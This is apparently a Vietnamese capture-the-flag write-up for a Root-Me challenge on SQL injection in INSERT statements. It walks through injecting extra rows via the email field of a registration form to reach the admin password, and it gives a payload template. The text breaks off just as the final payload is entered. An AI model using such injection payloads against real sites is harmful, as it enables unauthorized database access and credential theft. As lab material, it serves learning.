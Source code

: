 # SQL-Insert

Point: 40

Request Insert: fun & profit

Statement: Retrieve the flag

Related ressource: [SQL injection in insert, update and delete statements](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20SQL%20injection%20in%20insert,%20update%20and%20delete%20statements.pdf?_gl=1*jggomy*_ga*MTE0NDg5MTA5LjE2Nzk2MzIzMDY.*_ga_SRYSKX09J7*MTY4MjEyODY5NS41OC4xLjE2ODIxMjk4MzIuMC4wLjA.)

# Overview:

Form của challenge

![image](https://user-images.githubusercontent.com/115911041/233762097-617dc631-2eb0-46a2-8ee2-84c14a9ab232.png)

Challenge lần này cung cấp ta một form đăng kí và đăng nhập.Lấy được password admin là có được flag

Tên đề của bài này là INSERT, thì mình nghĩ sẽ có lien quan đến phần đăng kí

# Solution:

Đầu tien, tạo 1  account sau đó đi đăng nhập

 ```
 Username: admin
 Password: 123123
 Email: admin@gmail.com
 ```
![image](https://user-images.githubusercontent.com/115911041/233773209-e4fa2799-c554-4240-bb72-f66bb9bdb06c.png)

Kết quả hiển thị ra username và email. Ta có thể khai thác SQL ở phần này.Giờ mình sẽ thử giả lập lại phần đăng kí 

```
$username = $POST_['username'];
$password = $POST_['password'];
$email = $POST_['email'];

INSERT INTO example_table VALUES('$username','$password','$email');
```

Mình đã có thử một vài payload ở username thì nó bị filter nên mình sẽ chuyển sang email để khai thác.

Mình đã có đọc doc và nghiên cứu. Phát hiện ra mình có thể chèn payload kiểu như thế này

`INSERT INTO example_table (a,b,c) VALUES ('a','b','c'),('d','e','f')`

Mình sẽ thử mô phỏng cho các bạn dễ hiểu hơn 

```
$username = admin
$password = 123123
$email = c'),('d','e','f') -- -

INSERT INTO example_table (a,b,c) VALUES ('a','b','c'),('d','e','f') -- -
```

Vậy thì ta sẽ có công thức payload như sau
`email'),('username', 'password', 'payload') -- -

Sau khi đã có phương pháp giải rồi, mình tạo 1 account mới với paload như trên

```
Username = admin1
Password = 123123123
email = 
